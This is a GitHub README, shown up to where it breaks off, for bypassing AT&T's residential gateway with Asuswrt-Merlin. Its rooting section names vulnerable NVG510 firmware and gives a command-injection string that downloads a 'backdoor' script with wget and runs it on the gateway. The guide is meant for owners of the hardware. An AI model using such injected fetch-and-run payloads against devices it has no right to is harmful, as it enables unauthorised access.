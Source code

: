 # BypassAttRG
Using Asuswrt-Merlin to bypass AT&amp;T's residential gateway. (rt-ac68u <--> ~BGW210~ <--> ONT)  
This method only requires Asuswrt-Merlin. No *pfSense*, or *netgraph*, or ubiquiti devices,  or dumb switch needed.  
I only tested with rt-ac68u, but the method should work for all Asuswrt-Merlin based wireless routers (Please let me know if it doesn't).  
Now, the home router connects optical network terminal(ONT) directly. You should setup the firewall wisely.




## Menu
- [Prerequisites](#prerequisites)
- [Extract Certificates](#extract-certificates)
- [Configuring 802.1x authentication](#configuring-8021x-authentication)
- [Miscellaneous](#miscellaneous)
- [Credits & References](#credits--references)

  
## Prerequisites
- [Python 3](https://www.python.org/downloads/release/python-373/) for the local http server. There are many alternatives(e.g. [mobaxterm](https://mobaxterm.mobatek.net/)).
- Basic knowledge of POSIX commands (cd, mkdir, wget, etc.).
- A NVG510 or NVG589

[Back to menu](#menu)
## Extract Certificates
The certificates extracted from both NVG510 and NVG589 work, however NVG510 costs less and is easier to root.
- [NVG510](#nvg510)
- [NVG589](#nvg589) (maybe NVG599)
- [BGW210](#bgw210)

### NVG510
#### Rooting
Credit: [earlz](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui)
- Downgrade firmware to [9.0.6h2d30](firmware/nvg510/nbxv9.0.6h2d30.bin) if necessary. Known vulnerable firmwares are:
  - NVG510 9.0.6h2d30
  - NVG510 9.0.6h2d21
  - NVG510 9.0.6h048
- Follow this guide [Rooting The NVG510 from the WebUI](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui).  
If NVG510 has no connection to internet, you may want to setup a local http server for NVG510 to download the script
  - Download [http://earlz.net/static/backdoor.nvg510.sh](http://earlz.net/static/backdoor.nvg510.sh) to your local machine
  - Use Python to setup a simple http server. `python -m http.server` or `python -m SimpleHTTPServer` for Python2
  - In the page source of the ATT firmware update page [http://192.168.1.254/cgi-bin/update.ha](http://192.168.1.254/cgi-bin/update.ha) look for the word `nonce` and copy the value shown in quotes. This value changes every time the page is loaded! Example: `815a0aaa0000176012db85d7d7cac9b31e749a44b6551d02`
  - In the text box on the [earlz control2 page](http://earlz.net/static/control2.html), change the command to `errrr && wget http://YOUR_LOCAL_IP:8000/backdoor.nvg510.sh -O /tmp/backdoor.sh && source /tmp/backdoor.sh && errr`
